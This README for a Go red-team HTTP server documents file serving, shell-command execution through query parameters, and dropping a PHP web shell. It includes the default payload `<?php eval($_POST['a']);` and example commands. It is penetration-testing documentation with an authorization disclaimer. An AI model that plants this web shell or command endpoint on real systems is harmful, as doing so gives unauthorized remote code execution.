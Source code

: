 # HTTP Server GO

This is a small tool written in Go that can quickly start HTTP file browsing services in the Red Team intranet environment, and can execute shell commands. It supports the following features:

- Serving files from a specified directory
- Ability to execute shell commands with a specified query parameter
- Customizable shell path and query parameter
- Customizable IP address and port
- Supports PHP, Java, and .NET shells (currently only supports dumping PHP shells)
- Option to run the server in the background without printing anything to the console
- Option to dump the shell and execute it on the server (currently only supports dumping PHP shells)

## Usage

```
httpserver [OPTIONS]
```

### Application Options

- `-h`, `--help`: Show help message and exit
- `-p PORT`, `--port PORT`: Customize the port to listen on (default: 8080)
- `-d DIR`, `--dir DIR`: Customize the directory to serve files from (default: current directory)
- `-s SHELL`, `--shell SHELL`: Customize the shell path (default: `/?shell=`)
- `-cs CODE`, `--code-shell CODE`: Customize the query parameter for executing shell commands (default: `/?code=`)
- `-m MOD`, `--mod MOD`: Customize the shell mode (php/java/.net) (currently only supports dumping PHP shells)
- `--payload PAYLOAD`: Customize the shell content (default for PHP: `<?php eval($_POST['a']);`, default for Java: empty string)
- `--silent`: Run the server in the background without printing anything to the console
- `-dump`, `--dumpshell`: Dump the shell and execute it on the server (currently only supports dumping PHP shells)

### Help Options

- `-h`, `--help`: Show help message and exit

## Example Usage

To start the server with default settings:

```
httpserver
```

To start the server on port 8888:

```
httpserver -p 8888
```

To start the server and serve files from the `public` directory:

```
httpserver -d public
```

To start the server and use the query parameter `/?cmd=` to execute shell commands:

```
httpserver -cs cmd
```

To start the server and use the PHP shell with custom code:

```
httpserver -m php --payload '<?php echo "Hello, world!"; ?>' 
```

To dump the PHP shell and execute it on the server:

```
httpserver -dump -m php -cs cmd
```

##  Disclaimers 

 When using this tool for testing, you should ensure that the behavior complies with local laws and regulations and has obtained sufficient authorization**Do not scan unauthorized targets** 

 If you engage in any illegal behavior during the use of this tool, you shall bear the corresponding consequences on your own, and we will not assume any legal or joint liability. 

 Before installing and using this tool, please **carefully read and fully understand the content of each clause **. Restrictions, disclaimers, or other clauses that involve your significant rights and interests may be highlighted in bold, underlined, or other forms. Unless you have fully read, understood, and accepted all the terms of this agreement, please do not install and use this tool. Your use or any other express or implied acceptance of this agreement by you shall be deemed to have read and agreed to be bound by this agreement. 